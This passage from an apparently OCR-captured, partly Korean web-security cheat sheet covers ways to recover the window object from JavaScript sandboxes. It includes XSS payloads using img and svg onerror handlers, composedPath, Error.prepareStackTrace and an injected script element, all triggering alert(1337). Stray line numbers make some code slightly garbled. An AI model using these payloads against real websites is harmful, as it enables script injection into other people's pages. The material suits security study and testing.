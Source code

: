```javascript
/* Hidden commment */
})()
```
## Sandbox Escape - Recovering window object

Window 객체는 alert 또는 eval과 같은 전역적으로 정의된 함수에 접근할 수 있게 해줍니다.
```javascript
// Some ways to access window
window.eval("alert(1)")
frames
globalThis
parent
self
top //If inside a frame, this is top most window

// Access window from document
document.defaultView.alert(1)
// Access document from a node object
node = document.createElement('div')
node.ownerDocument.defaultView.alert(1)

// There is a path property on each error event whose last element is the window
<img src onerror=event.path.pop().alert(1337)>
// In other browsers the method is
<img src onerror=event.composedPath().pop().alert(1337)>
// In case of svg, the "event" object is called "evt"
<svg><image href=1 onerror=evt.composedPath().pop().alert(1337)>

// Abusing Error.prepareStackTrace to get Window back
Error.prepareStackTrace=function(error, callSites){
2   callSites.shift().getThis().alert(1337);
3 };
4 new Error().stack

// From an HTML event
// Events from HTML are executed in this context
with(document) {
with(element) {
//executed event
}
}
// Because of that with(document) it's possible to access properties of document like:
<img src onerror=defaultView.alert(1337)>
<img src onerror=s=createElement('script');s.append('alert(1337)');appendChild(s)>
```
## 값 접근 시 중단점 설정
```javascript
// Stop when a property in sessionStorage or localStorage is set/get
// via getItem or setItem functions
sessionStorage.getItem = localStorage.getItem = function (prop) {
debugger
return sessionStorage[prop]
}

localStorage.setItem = function (prop, val) {
debugger
localStorage[prop] = val
}
```

